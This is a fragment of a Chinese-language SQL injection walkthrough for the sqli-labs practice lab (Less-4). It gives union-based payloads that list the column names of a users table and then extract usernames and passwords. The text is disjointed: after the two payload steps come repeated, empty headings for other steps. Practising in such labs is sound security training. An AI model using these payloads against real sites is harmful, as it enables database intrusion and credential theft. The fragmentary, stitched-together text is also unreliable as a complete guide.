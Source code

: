  


<hr/>


<h3>**第七步：爆字段名**</h3>

http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

<hr/>
 



<h3>**第八步：爆数据**</h3>
http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=-1") union select 1,username,password from users where id =2--+

 


### **第一步：注入点测试**

---


### **第三步：判断回显位**

---


### **第五步：爆数据库名**

---


### **第七步：爆字段名**

---

